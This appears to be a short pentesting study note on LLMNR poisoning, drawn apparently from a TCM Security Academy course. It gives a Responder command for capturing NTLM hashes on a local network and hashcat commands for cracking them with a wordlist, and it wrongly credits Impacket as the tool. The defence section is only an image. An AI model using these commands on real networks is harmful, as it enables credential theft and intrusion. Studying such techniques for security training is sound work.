 # LLMNR Poisoning

## What is LLMNR

![image](https://user-images.githubusercontent.com/96747355/167956823-a8f3ac8f-e971-463e-8c67-ba26f5f6e774.png)  
*Source: TCM Security Academy*  
![image](https://user-images.githubusercontent.com/96747355/167956838-6185b47d-dfc8-4cb1-9a4e-39814a7a795b.png)  
*Source: TCM Security Academy*

## Responder

- [Impacket](https://github.com/SecureAuthCorp/impacket): tool to abuse LLMNR:  
Best to run first thing in the morning  
```responder -I eth0 -rdwv```
And when there will be activity in the network we will be able to get hashes

## Hascat

- We use hashcat to crack the hashes we got previously
- When looking for a module in hascat we can grep on the hash we need:
```hashcat --help | grep NTLM```
- Command
```hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt```

## LLMNR Poisoning Defense

![image](https://user-images.githubusercontent.com/96747355/167956945-7978a93c-5fdf-425a-90e6-87baed015c74.png)  
*Source: TCM Security Academy*
